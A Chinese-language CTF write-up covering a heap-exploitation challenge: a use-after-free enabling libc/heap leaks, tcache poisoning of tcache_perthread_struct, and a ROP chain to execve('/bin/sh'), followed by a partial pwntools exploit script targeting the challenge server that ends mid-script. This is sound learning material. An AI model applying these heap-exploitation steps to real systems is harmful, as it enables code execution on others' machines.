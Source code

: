### Fishbaby's Library
![](https://hackmd.io/_uploads/HywjIHqf1e.png)
Flag 在 Public Release 裡面。

### SLIME MACHINE REVENGE
![](https://hackmd.io/_uploads/SymTuS9z1x.png)
變數名稱我改過，但大致上就是創建一個 chunk，有一個陣列保存位址（`chunk_addr`），一個陣列保存大小（`size`），還有一個陣列標記 chunk 使用狀態（`using`）。

![](https://hackmd.io/_uploads/S1dutHqG1g.png)
但是 kill 的時候沒有清除 `size` 和 `chunk_addr`，只把 `using` 標記為 0。

![](https://hackmd.io/_uploads/S11qYB9zyg.png)
![](https://hackmd.io/_uploads/ByTcKScMkl.png)
但讀取（`get`）和寫入（`set`）完全不檢查 `using`，所以可以利用 use after free。

![](https://hackmd.io/_uploads/ByORYH5z1x.png)
Gift 免費給出 stack 的位址。

首先創建兩個 chunk，一個大小為 0x490，一個大小為 0x40，把兩個都釋放後，前者進入 unsorted bin，後者進入 tcache，這樣可以 leak 出 libc 和 heap 的位址，然後計算出 libc base 和 heap base。

接著進行 tcache attack，創建兩個 chunk（2 和 3），釋放兩個 chunk 後，它們的關係會是：
```
tcache[2]: (3) -> (2)
```
這時（3）的 next 指向（2），寫入（3）來修改 next 為 `tcache_perthread_struct` 的位址。

修改完成後再取兩個 chunk，後取到的 chunk（5）會分配到 `tcache_perthread_struct`，這樣就能控制 tcache，達到任意位址寫入的目的。

接著對（5）寫入，修改 `tcache_perthread_struct`，然後拿到一個接近 main return address 的 chunk，搭建 ROP chain 來構建 `execve("/bin/sh", 0, 0)`，最後執行 End 退出 main，跳到剛才搭的 ROP chain 上，拿到 shell。

exploit:
```python
from pwn import *

# r = process("./chal")
r = remote("23.146.248.196", 48763)

def create(size):
    r.sendlineafter(b">>>", b"1")
    r.sendlineafter(b":", str(size).encode())
def kill(idx):
    r.sendlineafter(b">>>", b"4")
    r.sendlineafter(b":", str(idx).encode())

gift = int(r.recvline().decode().split(":")[1], 16)
success("Gift -> %s"%hex(gift))
adrtg = gift + 0x30

create(0x490)
create(0x40)
kill(0)
kill(1)

r.sendlineafter(b">>>", b"2")
r.sendlineafter(b":", b"1")
r.recvuntil(b":")
heapadr = (u64(r.recv(6)+b"\x00\x00") - 0x20) << 4
success("Heap Base -> %s"%hex(heapadr))

r.sendlineafter(b">>>", b"2")
r.sendlineafter(b":", b"0")
```